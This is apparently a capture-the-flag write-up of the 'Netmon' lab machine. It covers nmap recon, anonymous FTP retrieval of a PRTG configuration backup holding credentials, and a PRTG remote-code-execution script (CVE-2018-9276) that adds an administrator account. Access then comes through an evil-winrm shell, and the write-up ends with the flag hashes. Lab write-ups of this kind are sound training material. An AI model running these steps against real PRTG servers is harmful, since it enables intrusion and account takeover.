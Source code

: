 ```yaml
---
layout: post
title: Netmon
tags: [OSCP, Writeup, Windows]
description: "Netmon write-up"
---
```


![Netmonlogo](/assets/imgs/netmon/netmon.png)

### This is an easy windows box

## Tools used

------

- 


## Reconnaissance

------

### Nmap

```
nmap -sC -sV -oA netmon 10.10.10.152 -v

PORT    STATE SERVICE      VERSION
21/tcp  open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_02-25-19  11:49PM       <DIR>          Windows
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp  open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 7m01s, deviation: 0s, median: 7m01s
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-08-04T09:25:49
|_  start_date: 2020-08-04T08:37:26
```

Here’s what nmap teaches us :

- 



![Website](/assets/imgs/netmon/web.PNG)



## Exploit

------

I used the browser to connect to the ftp :

![FTP connected](/assets/imgs/netmon/ftp_connect.PNG)

I see the Users directory, browsing it, I found the user.txt flag !

![FTP flag](/assets/imgs/netmon/ftp.PNG)

Searching where the password was stored for this software, I stumble upon this reddit : [https://www.reddit.com/r/sysadmin/comments/835dai/prtg_exposes_domain_accounts_and_passwords_in/](https://www.reddit.com/r/sysadmin/comments/835dai/prtg_exposes_domain_accounts_and_passwords_in/) :

```
Automatically generated backups under:
	C:\ProgramData\Paessler\PRTG Network Monitor\Configuration Auto-Backups\

Automatically generated temporary files that may exist:
	C:\ProgramData\Paessler\PRTG Network Monitor\PRTG Configuration.old
	C:\ProgramData\Paessler\PRTG Network Monitor\PRTG Configuration.nul
```



![Config file prtg](/assets/imgs/netmon/config_files.PNG)



```
wget ftp://10.10.10.152/ProgramData/Paessler/PRTG%20Network%20Monitor/PRTG%20Configuration.old.bak
```





![Website connected](/assets/imgs/netmon/connecter_web.PNG)



```
bash prtg-exploit.sh -u http://10.10.10.152 -c "OCTOPUS1813713946=ezRGMjU3MzU5LTJCNDMtNEYzOC05M0EyLUIwNzc4ODQxMzFGOH0="

[+]#########################################################################[+] 
[*] PRTG RCE script by M4LV0                                                [*] 
[+]#########################################################################[+] 
[*] https://github.com/M4LV0                                                [*] 
[+]#########################################################################[+] 
[*] Authenticated PRTG network Monitor remote code execution  CVE-2018-9276 [*] 
[+]#########################################################################[+] 

 [*] file created 
 [*] sending notification wait....

 [*] adding a new user 'pentest' with password 'P3nT3st' 
 [*] sending notification wait....

 [*] adding a user pentest to the administrators group 
 [*] sending notification wait....

 [*] exploit completed new user 'pentest' with password 'P3nT3st!' created have fun!
```



```
evil-winrm -i 10.10.10.152 -u "pentest" -p 'P3nT3st!'

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\pentest\Documents> whoami
netmon\pentest
```



## Flags

------

### User.txt

```
dd58ce67b49e15105e88096c8d9255a5
```

### Root.txt

```
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
3018977fb944bf1878f75b879fba67cc
```